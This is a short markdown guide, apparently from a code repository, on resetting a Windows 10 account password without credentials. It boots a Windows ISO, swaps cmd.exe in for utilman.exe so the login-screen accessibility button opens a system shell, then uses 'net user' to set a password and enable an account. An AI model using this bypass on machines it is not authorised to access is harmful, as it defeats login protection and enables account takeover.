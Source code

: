 # Account

# Index

   * [1.How to change user account](#1how-to-change-user-account)
      * [1.1. Get Logical Volume inforations](#11-get-logical-volume-inforations)
      * [1.2 Utilman](#12-utilman)
      * [1.3 Change user password](#13-change-user-password)
         * [1.3.1 Change password](#131-change-password)
         * [1.3.2 Active user](#132-active-user)

## 1.How to change user account

Let's take a look to how to change user password without any access through Windows ISO.

Boot on Windows 10 ISO
On the language screen, chose your language and hit **SHIFT+F10**

### 1.1. Get Logical Volume inforations

When the cmd terminal is oppened, list Diske Caption and Volume Name :

```powershell
wmic logicaldisk get caption, VolumeName
```

Move to the Disk you want (letter found with the previous command)

```powershell
d:
```

Go to the system32 folder 

```powershell
cd windows\system32
```
### 1.2 Utilman

Use utilman despite off cmd.exe

```powershell
ren utilman.exe utilman.exe.bak
ren cmd.exe utilman.exe
```

Reboot
```powershell
wpeutil reboot
```

### 1.3 Change user password

After rebooting, clic on accessibility icon

#### 1.3.1 Change password

Change the user password

```powershell
Example :
net user admin root

net user $USER pass
```
#### 1.3.2 Active user

Active user

```powershell
net user $USER /active:yes
```

Reboot

```powershell
wpeutil reboot
```

Replace utilman despite off cmd.exe

```powershell
ren utilman.exe cmd.exe
ren utilman.exe.bak utilman.exe
```